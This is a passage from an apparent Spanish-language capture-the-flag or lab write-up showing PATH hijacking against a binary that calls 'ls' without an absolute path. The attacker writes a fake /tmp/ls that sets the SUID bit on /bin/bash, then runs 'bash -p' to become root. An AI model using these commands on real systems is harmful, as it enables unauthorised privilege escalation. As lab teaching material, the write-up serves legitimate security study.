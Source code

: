 ### PATH Hijacking

Por lo que vemos esta ejecutando el `ls` de forma insegura, ya que no pilla la ruta absoluta, por lo que podremos realizar la tecnica de `PATH Hijacking`, de la siguiente forma, nos iremos a la maquina victima y haremos esto:

```shell
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > /tmp/ls
```

```shell
export PATH=/tmp/:$PATH
./home/johntheripper/show_files
```

Y con esto ya habremos puesto con permisos `SUID` la `bash`, podremos verificarlo de la siguiente forma:

```shell
/bin/ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Por lo que ahora pondremos lo siguiente:

```shell
bash -p
```

Y con esto ya seremos `root`.
